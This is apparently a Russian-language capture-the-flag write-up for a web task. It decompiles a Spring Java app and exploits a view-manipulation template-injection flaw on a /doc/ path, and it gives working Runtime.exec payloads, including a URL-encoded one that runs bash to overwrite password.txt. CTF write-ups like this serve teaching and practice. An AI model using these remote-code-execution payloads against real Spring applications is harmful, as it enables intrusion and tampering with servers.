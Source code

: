 # Web 2
Декомпилим исходники сайта через Luyten, потому что исходники на джаве(.jar):\
![java.png](java.png "а вот и исходники")
Видим упоминание springframework, в том числе в MANIFEST.MF, это ам понадобится. В HelloController.class описана основная логика приложения, внимательно читаем его и понимаем, что чтобы получить флаг, нам нужно узнать/записать пароль в password.txt:\
![password.png](password.png "интересненько...") \
Видим ещё /doc/{document}, который скорее всего можно проэксплатировать. Ищем в яндексе "springframework Path Variable exploit" и натыкаемся на замечательный сайт:\
https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability \
На нём находим эксплоит для /doc: 
```
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
```
Гуглим как в джаве запускать что-то из шелла: \
https://stackoverflow.com/questions/13707519/running-a-bash-shell-script-in-java
Вместо touch пробуем перезаписать password.txt:\
```
/doc/__${T(java.lang.Runtime).getRuntime().exec(new String[]{"bash", "-c", "echo 4343 > password.txt"})}__::.x
```
и получаем 400: \
![400.png](400.png "400 :(")
Методом перебора понимаем, что проблема в [], поэтому кодируем их в юрл: \
```
192.168.12.13:8090/doc/__${T(java.lang.Runtime).getRuntime().exec(new String%5b%5d{"bash", "-c", "echo 4343 > password.txt"})}__::.x
```
Сработало:
![win1.png](win1.png "win! :)")
Логинимся и получаем флаг!!!!!!!! \
![win2.png](win2.png "win!!!!! ^-^")

